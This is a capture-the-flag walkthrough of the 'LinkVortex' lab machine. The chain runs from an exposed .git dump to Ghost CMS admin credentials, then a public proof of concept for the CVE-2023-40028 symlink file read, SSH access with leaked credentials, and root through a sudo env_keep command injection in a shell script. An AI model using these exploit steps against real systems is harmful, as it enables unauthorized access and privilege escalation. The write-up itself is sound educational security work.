


Exploitation Summary
Exploitation process: The target machine was running Ghost CMS version 5.58 on the main web server, with an exposed .git directory on a development subdomain. Using git-dumper, I extracted the repository contents and discovered hardcoded credentials in the commit history.
These credentials granted access to the Ghost CMS admin panel, allowing exploitation of CVE-2023-40028, an arbitrary file read vulnerability through symlink uploads. By leveraging this vulnerability, I was able to read the Ghost configuration file which contained SSH credentials for the user bob, providing initial access to the host machine.
Privilege escalation was achieved by exploiting a vulnerable sudo configuration that allowed executing a bash script with a preserved environment variable. The script contained a command injection vulnerability in an if statement that directly executed the CHECK_CONTENT environment variable without proper validation, allowing arbitrary command execution as root.
Technologies/Exploits: Git repository exposure via git-dumper, Ghost CMS arbitrary file read via symlink upload (CVE-2023-40028), sudo privilege escalation through environment variable command injection.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services on the target:

The scan reveals standard services including SSH on port 22 and HTTP on port 80. I add linkvortex.htb to my /etc/hosts file and proceed with web enumeration.
Web Enumeration - Ghost CMS Discovery
Running whatweb against the main domain reveals interesting information:
http://linkvortex.htb/ [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache],
IP[10.10.11.47], JQuery[3.5.1], MetaGenerator[Ghost 5.58], Open-Graph-Protocol[website],
PoweredBy[Ghost,a], Script[application/ld+json], Title[BitByBit Hardware],
X-Powered-By[Express], X-UA-Compatible[IE=edge]The application is using Ghost CMS version 5.58 (https://ghost.org/). This version is vulnerable to CVE-2023-40028, which allows authenticated users to upload files that are symlinks, enabling arbitrary file reads on the host operating system.
I locate the Ghost admin login panel at http://linkvortex.htb/ghost/#/signin, but I don't have credentials yet to exploit this vulnerability.
Virtual Host Discovery
Scanning for virtual hosts, I discover a development subdomain:
dev.linkvortex.htb Status: 200 [Size: 2538]I add this to my /etc/hosts file and investigate. Running whatweb against this new subdomain:
whatweb http://dev.linkvortex.htb/http://dev.linkvortex.htb/ [200 OK] Apache, Country[RESERVED][ZZ], HTML5,
HTTPServer[Apache], IP[10.10.11.47], Script, Title[Launching Soon]The page displays a simple "Launching Soon" message:
Git Repository Exposure
Running nikto against the development subdomain reveals an exposed .git directory:

This is a critical finding. An exposed Git repository can leak sensitive information including credentials, API keys, and internal application details. I use git-dumper (https://github.com/arthaud/git-dumper) to extract the repository contents:
git-dumper http://dev.linkvortex.htb/.git/ ./dev.linkvortexAnalyzing the Git History
After dumping the repository, I examine the commit history and staged changes. In one of the test files within the staged changes, I discover hardcoded credentials:
OctopiFociPilfer45Since I saw posts on the main website authored by a user named "admin", I attempt to log in with these credentials at the Ghost admin panel:
admin@linkvortex.htb:OctopiFociPilfer45The credentials are valid, granting me access to the Ghost CMS dashboard.
Exploiting Ghost CMS - CVE-2023-40028
Now that I have authenticated access, I can exploit the CVE-2023-40028 vulnerability. I use the proof-of-concept exploit from https://github.com/0xyassine/CVE-2023-40028.
Understanding the Vulnerability
This vulnerability exploits Ghost CMS's ability to upload files through the admin interface. While Ghost is supposed to validate uploads, the version 5.58 allows authenticated users to upload symbolic links. By creating a symlink pointing to sensitive files on the host system and uploading it through Ghost, an attacker can read arbitrary files.
The exploit provides an interactive shell interface for specifying files to read:
bash CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
(...)
node:x:1000:1000::/home/node:/bin/bashThe presence of the node user and the limited user list suggests this might be running inside a container environment.
Discovering Configuration Files
While examining the dumped Git repository earlier, I noticed references to a file called Dockerfile.ghost which mentioned the configuration path:
/var/lib/ghost/config.production.jsonI use the arbitrary file read exploit to retrieve this configuration file:
file> /var/lib/ghost/config.production.jsonThe configuration file reveals database credentials:
"auth": {
"user": "bob@linkvortex.htb",
"pass": "fibber-talented-worth"
}Initial Access - SSH as Bob
Since these credentials appear to be for a user named "bob", I attempt SSH authentication with password reuse:
ssh bob@linkvortex.htbUsing the password fibber-talented-worth, I successfully authenticate and gain access to the host machine as the user bob. I can now retrieve the user flag.
Privilege Escalation - Sudo Configuration Analysis
After gaining initial access, I check what sudo privileges the bob user has:
sudo -lMatching Defaults entries for bob on linkvortex:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty, env_keep+=CHECK_CONTENT
User bob may run the following commands on linkvortex:
(ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.pngTwo things stand out here:
- Bob can execute a specific bash script as root without a password
- The
env_keep+=CHECK_CONTENTconfiguration preserves theCHECK_CONTENTenvironment variable when using sudo
Analyzing the Vulnerable Script
Let me examine the clean_symlink.sh script:
#!/bin/bash
QUAR_DIR="/var/quarantined"
if [ -z $CHECK_CONTENT ];then
CHECK_CONTENT=false
fi
LINK=$1
if ! [[ "$LINK" =~ \.png$ ]]; then
/usr/bin/echo "! First argument must be a png file !"
exit 2
fi
if /usr/bin/sudo /usr/bin/test -L $LINK;then
LINK_NAME=$(/usr/bin/basename $LINK)
LINK_TARGET=$(/usr/bin/readlink $LINK)
if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
/usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
/usr/bin/unlink $LINK
else
/usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
/usr/bin/mv $LINK $QUAR_DIR/
if $CHECK_CONTENT;then
/usr/bin/echo "Content:"
/usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
fi
fi
fiIdentifying the Command Injection Vulnerability
The script has a critical vulnerability in this line:
if $CHECK_CONTENT;thenInstead of checking the value of $CHECK_CONTENT with proper quoting like if [ "$CHECK_CONTENT" = "true" ], the script directly executes whatever is in the CHECK_CONTENT variable as a command. This is a command injection vulnerability.
The attack logic works as follows:
- Create a
.pngfile that is actually a symlink to pass the extension check - Set the
CHECK_CONTENTenvironment variable to an arbitrary command - Execute the script with sudo - the environment variable is preserved due to
env_keep - The script will execute our command in the final if statement as root
Proof of Concept
First, I test the concept by creating a symlink and executing whoami:
ln -s user.txt xd.png
CHECK_CONTENT=whoami sudo /usr/bin/bash /opt/ghost/clean_symlink.sh ./xd.pngLink found [ ./xd.png ] , moving it to quarantine
root
Content:Perfect! The command executes as root. Now I can escalate to a root shell.
Gaining Root Access
I modify the command to spawn a bash shell as root:
ln -s user.txt xd.png
CHECK_CONTENT="/bin/bash" sudo /usr/bin/bash /opt/ghost/clean_symlink.sh ./xd.pngLink found [ ./xd.png ] , moving it to quarantine
root@linkvortex:/home/bob#I now have a root shell and can retrieve the root flag, completing the machine.